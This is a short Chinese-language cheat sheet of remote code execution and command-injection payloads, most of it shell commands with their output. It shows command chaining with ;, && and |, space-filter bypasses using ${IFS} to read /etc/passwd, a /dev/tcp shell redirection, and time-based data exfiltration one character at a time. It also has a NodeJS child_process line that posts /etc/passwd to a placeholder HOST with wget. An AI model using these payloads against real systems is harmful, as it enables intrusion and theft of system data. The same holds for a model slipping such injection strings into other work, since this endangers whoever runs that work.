 # 远程代码执行
远程代码执行是一个安全漏洞，它允许攻击者从远程服务器执行代码.
	

## 开发
正常的代码执行, 执行命令然后就是:p
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh
```

通过链接命令执行代码执行
```
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
```

没有空间的代码执行
```
swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab▸ ~ ▸ $ sh</dev/tcp/127.0.0.1/4242
```

## 基于时间的数据漏出
数据提取:挨个字符进行
```
swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real	0m5.007s
user	0m0.000s
sys	0m0.000s

swissky@crashlab▸ ~ ▸ $ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real	0m0.002s
user	0m0.000s
sys	0m0.000s
```

## 环境基础
NodeJS代码执行
```
require('child_process').exec('wget --post-data+"x=$(cat /etc/passwd)"+HOST')
```

## 致谢
* [SECURITY CAFÉ - Exploiting Timed Based RCE](https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/)


